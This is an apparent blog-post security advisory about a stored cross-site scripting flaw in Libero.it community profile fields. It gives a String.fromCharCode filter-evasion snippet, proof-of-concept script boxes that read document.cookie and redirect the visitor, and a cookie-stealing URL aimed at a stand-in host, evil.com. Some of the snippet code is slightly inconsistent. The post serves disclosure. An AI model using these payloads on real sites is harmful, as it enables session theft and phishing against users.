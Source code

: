 ```yaml
--- 
layout: post
title: "Advisory: Libero.it XSS Vulnerability"
meta: 
  _oembed_e8ca828b69f69de0e22e7e271ad7dc26: "{{unknown}}"
  _wp_page_template: default
  _oembed_3d718b72c63aacfdf79d1fb38e6253f1: "{{unknown}}"
  _oembed_631062b4a4548c51f235907d114d6fd4: "{{unknown}}"
  _oembed_116a79a942c74cddb055bd8503a08054: "{{unknown}}"
  autometa: nick nick digiland script fromcharcode arbitrary vulnerability profile
  _oembed_40a3ac3cf2f3c38b4c5f3ef6a652909c: "{{unknown}}"
tags: 
- about-me
---
```

After the report of Rosario Valotta on this ML, another XSS vulnerability
has been found on Libero.it, one of the most important italian ISP
(www.libero.it).

Nothing more than a trivial error but, since Libero.it staff used the
printed media to inform that it was only a "spot" issue, it is
important to demonstrate that this kind of errors are quite more
widespread and to let the Libero staff and management realize that a
potential attack
must be avoid by a deep check of the portal.

The vulnerability once again can be found in the "Community" section
of Libero portal, and the affected functionality is the profile
creation and retrival
<http://digiland.libero.it/profilo.phtml?nick=XssForFun&top=1>.

The implementation of this functionality allows the injection of
malicious code in the profile, so that an attacker by visiting his/her
profile can:

1) steal username
2) steal cookies
3) arbitrary redirection for Phishing pourpose

The normal URL would be something linke this:

<pre>
http://digiland.libero.it/profilo.phtml?nick=Nick&top=1
</pre>

where "Nick" is the name of the nick whose profile has been
manipulated to add arbitrary code.

This vulnerability resemble to those in MySpace and other communities.
So it's nothing really complicated and you can skip on from here ;)

In admin pages (need to be logged by creating a fake account) on page

<pre>
http://digiland.libero.it/profilo_add.php?nocache=1175076655
</pre>

there are two different fields named "I miei difetti:" (my defects)
and "i miei pregi:" (my strong points) that accept arbitrary content.

As stated by Rosario, the Libero.it web application performs a simple
parsing of the posted content, so that quote and double-quote (' and ")
chars are escaped by putting a \ before of them (both using ASCII and URL
encoding).

While I already had the Rosario's beautiful implementation of a simple
evasion technique I preferred to encode the single char in an old
snippet of mine.
The aim of the snippet (I don't remember if I made it, stole it, stole
only the main idea or where, sorry)  is to transform a string into a
series of char numbers to be used with a String.fromCharCode command.
Due to the limitation in size, the function which create the
String.fromCharCode sequence is a detached and ascii value is
decreased of 100 to limit the number of digits.
This is the creation snippet:

<pre>
 &lt;script>
 var toBenc = "hettp://www.lastknight.com";
 var result = "";

  for (var k = 0; k < carlo.length; k++)
 {
         result += ("e(" + (toBenc .charCodeAt(k) - 100) + ")+");
 }

 document.write(result + "<br>")
 &lt;/script>
</pre>  

 So URL "http://www.lastknight.com" is rendered as:
 <pre>
e(4)+e(16)+e(16)+e(12)+e(-42)+e(-53)+e(-53)+e(19)+e(19)+
e(19)+e(-54)+e(8)+e(-3)+e(15)+e(16)+e(7)+e(10)+e(5)+e(3)+
e(4)+e(16)+e(-54)+e(-1)+e(11)+e(9);
</code>

Using the tho box we can use the following code for a POC:

<pre>
[BOX 1]
 &lt;script>
 function e(A) {
  return String.fromCharCode(A + 100)
 }
 alert(document.cookie);
  &lt;/script>

 [BOX 2]
 &lt;script>
 var k =
 e(4)+e(16)+e(16)+e(12)+e(-42)+e(-53)+e(-53)+e(19)+e(19)+e(19)+e(-54)+e(8);
 k +=
 e(-3)+e(15)+e(16)+e(7)+e(10)+e(5)+e(3)+e(4)+e(16)+e(-54)+e(-1)+e(11)+e(9);
 alert(k);
 window.location = k;
  &lt;/script>
</pre>
  

The posting url can be easily modified to an http grabber such as:  

<pre>
http://evil.com/grab?c="+encodeURI(document.cookie);
</pre>

or (much more dangerous) to a phishing site.  
  
Session Riding and derived problems have not been tested.  
  
A POC url is available (until not deleted) here:

[http://digiland.libero.it/profilo.phtml?nick=XssForFun&top=1]  
  
Just my 2 cents and thanks to:    
  
**M1Sec**: for hints and Support  
**Rosario Valotta**:  for the first report, upon which this is based  
**SharDick**:  for help in JS ;)  
**Vokda**:  for consultancy and typo-killing ;)  
 
